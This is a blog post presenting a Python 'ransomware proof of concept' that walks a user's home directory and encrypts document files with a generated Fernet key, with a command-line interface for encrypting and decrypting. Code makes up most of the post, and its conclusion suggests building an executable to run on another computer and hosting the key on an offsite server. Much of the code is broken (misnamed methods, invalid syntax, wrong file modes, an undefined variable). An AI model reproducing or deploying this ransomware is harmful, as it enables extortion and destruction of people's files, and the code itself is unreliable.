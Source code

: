```yaml
---
layout: post
title:  "Ransomware Proof of concept"
date:   2020-08-29 6:00:00 +0800
categories: coding
---
```

### Ransomware Concept
The basic of ransomware is it encrypts a specified target file extension using with a key that the attacker had setup on a server somewhere to be used later for later decyption process. There are different programming languges you can use for this but the easiest and fastest way to provide a proof of concept is with python. You can check my code repo here [run-some-crypt](https://github.com/AdrianDucao/run-some-crypt).

#### Content
1. generate a key to be used for encryption and decryption
2. write a key file
3. read a key file
4. scanning directory
5. encypt the target files
6. create cli interface

### generate a key to be used for encryption and decryption
Let's begin by importing the OS module since we can use its functions for interactions with the OS, for encryption we can import the [Fernet(Semantic Encrytion)](https://cryptography.io/en/latest/fernet/) Module.
```
  1 import os
  2 from os.path import expanduser
  3 from cryptography.fernet import Fernet

```

create a class and constructor, below that is the generateKey function
```
  5 class Encrypt:
  6 
  7     def __init__(self):
  8 
  9         self.key = None
 10         self.cryptor = None
 11         self.file_ext_targets = ['pdf','doc','docx','ppt','pptx','txt']
 12 
 13     def generateKey(self):
 14 
 15         self.key = Fernet.generate_key()
 16         self.cryptor = Fernet(self.key)

```

### write a key file
now lets create a function to write the key to a file
```
 23     def writeKey(self, key_filename):
 24         with open.(key_filename, 'b') as f:
 25             f.write(self.key)

```

### read a key file
moving on, create a function to read a key from a file
```
 18     def readKey(self, key_filename):
 19         with open(key_filename, 'a') as f:
 20             self.key = f.read()
 21             self.cryptor = Fernet(self.key)

```

### scanning directory
the function below allows you to scan the directories and check for target filename extensions specified earlier on self.file_ext_targets 
```
 28     def mainCrypt(self, root_dir, encrypted = False):
 29         for root, _, files in os.walk(root_dir):
 30             for f in files:
 31                 abs_file_path = os.path.join(root, f)
 32 
 33                 if not abs_file_path('.')[-1] in self.file_ext_targets:
 34                     continue
 35 
 36                 self.crypt_file(abs_file_path, encrypted = encrypted)

```

### encrypt the target files
function to encrypt the specified filename extensions and check if that file has been encrypted or not
```
 38     def encryptFile(self, file_path, encrypted = False):
 39         with open(file_path, 'a+') as f:
 40             _data = f.read()
 41 
 42             if not encrypted:
 43                 data = self.cryptor.encrypt(_data)
 44             else
 45                 data = self.cryptor.decrypt(_data)
 46 
 47             f.seek(0)
 48             f.write(data)

```

### create a cli interface
how it works is that you call the class we created earlier and create a conditional statement where you can specify and action you want to take e.g. encrypt or decrypt files. 
``` 
 51 if __name__ == '__main__':
 52     #all directory
 53     sys_root = expanduser('~')
 54 
 55     #specific target directory
 56     #local_root= '.'
 57 
 58     import argparse
 59     parser = argparse.ArgumentParser()
 60     parser.add_argument('--action', required=True)
 61     parser.add_argument('--keyfile')
 62 
 63 
 64     args = parser.parse_args()
 65     action = args.action.lower()
 66     keyfile = args.keyfile
 67 
 68     lock = Encrypt()
 69 
 70     if action == 'decrypt':
 71         if keyfile is None:
 72             print('Specify path to keyfile after --keyfile')
 73         else:
 74             lock.read_key(keyfile)
 75             lock.mainCrypt(local_root, encrypted=True)
 76     elif action == 'encrypt':
 77         lock.generate_key()
 78         lock.write_key('keyfile')
 79         lock.mainCrypt(sys_root)


```

### Conclusion
After that typing, you're set and done. If you are planning to use this to another computer, you can create an executable file to run this code set an offsite server to host and store the keyfile for later use. Another use case for this is to make a secure encrypted files inside your flash drive or hard drive, as long as you have the keyfile or know the key you're the only one who can open those files. It's not a matter of if but when the quantum computers will comes to age, privacy and secuity through encryption might disappear. 
```
$ python3 crypt.py --action encrypt

$ python3 crypt.py --action decrypt --keyfile /path/keyfile
```

Happy Hunting.